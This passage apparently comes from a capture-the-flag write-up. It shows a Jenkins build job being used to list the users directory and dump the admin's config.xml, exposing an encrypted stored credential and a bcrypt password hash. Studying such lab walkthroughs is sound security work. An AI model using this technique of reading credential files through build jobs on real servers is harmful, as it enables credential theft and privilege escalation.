 Lets also look at the `.jenkins` folder running in oliver's directory, specifically the `users` directory:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>dir C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users 
 Volume in drive C has no label.
 Volume Serial Number is 212C-60B7

 Directory of C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users

07/30/2024  06:14 AM    <DIR>          .
07/30/2024  06:14 AM    <DIR>          ..
10/21/2021  02:22 AM    <DIR>          admin_17207690984073220035
07/30/2024  06:28 AM    <DIR>          test_9973474590391204300
07/30/2024  06:14 AM               402 users.xml
               1 File(s)            402 bytes
               4 Dir(s)   4,620,726,272 bytes free
```

Lets access the admin's config.xml in their admin directory:

```
Started by remote host 10.10.14.214
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3
[test3] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins7512881692300642513.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <SNIP>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
<SNIP>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
<SNIP>
Finished: SUCCESS
```
